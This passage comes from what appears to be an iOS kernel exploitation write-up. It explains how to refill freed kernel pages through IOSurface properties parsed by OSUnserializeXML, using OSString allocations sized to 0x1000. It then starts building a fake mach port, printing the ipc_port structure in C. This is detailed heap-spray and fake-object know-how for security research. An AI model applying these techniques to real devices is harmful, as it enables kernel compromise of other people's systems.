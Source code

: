 Now we wanna reallocate it, but how and with what contents? My favourite heap allocation primitive is `OSUnserializeXML` (or `OSUnserializeBinary` I should say) because it allows fine-grained control over allocation and contents, allows for both arbitrary data and pointers, and is used in many places. So since we're dealing with IOSurface anyway, I figured we might as well use IOSurface properties. An `IOSurfaceRootUserClient` offers external methods `9`, `10` and `11` to parse arbitrary data with `OSUnserializeXML`, store the result in the kernel, and read back or delete that result at any time. I'll leave the implementation details on this for another time, but they're effectively the same as`IOSurfaceSetValue`, `IOSurfaceCopyValue` and `IOSurfaceRemoveValue`, just faster since no CF serialisation has to happen.  
Alright, so now we've got to reallocate the freed pages. In order to avoid creating holes, this is best done with allocations of exactly the page size. On A9 and later that is 16KB, but on A8 and earlier the true hardware page size is 4KB, despite only 16KB being exported to userland. So we're going for `0x1000` here. Now, `OSData` would normally seem like the best choice for binary data, but it turns out that doesn't go through `kalloc` anymore for allocations larger or equal to the page size. The next best choice to me is `OSString` which works well, so long as you take into account that a null terminator is added to the serialised data, so in order to get a `0x1000` allocation, you'll want to have just `0xfff` bytes of serialised data.

### Fake port construction

At this point we merely have to put some data into our `OSString`s, and the kernel will treat it as a mach port. So let's start with a look at the structure:

```c
typedef struct {
    uint32_t ip_bits;
    uint32_t ip_references;
    struct {
        kptr_t data;
        uint32_t type;
        uint32_t pad;
    } ip_lock; // spinlock
    struct {
        struct {
            struct {
                uint32_t flags;
                uint32_t waitq_interlock;
                uint64_t waitq_set_id;
                uint64_t waitq_prepost_id;
                struct {
                    kptr_t next;
                    kptr_t prev;
                } waitq_queue;
            } waitq;
            kptr_t messages;
            natural_t seqno;
            natural_t receiver_name;
            uint16_t msgcount;
            uint16_t qlimit;
            uint32_t pad;
        } port;
        kptr_t klist;
    } ip_messages;
    kptr_t ip_receiver;
    kptr_t ip_kobject;
    kptr_t ip_nsrequest;
    kptr_t ip_pdrequest;
    kptr_t ip_requests;
    kptr_t ip_premsg;
    uint64_t  ip_context;
    natural_t ip_flags;
    natural_t ip_mscount;
    natural_t ip_srights;
    natural_t ip_sorights;
```
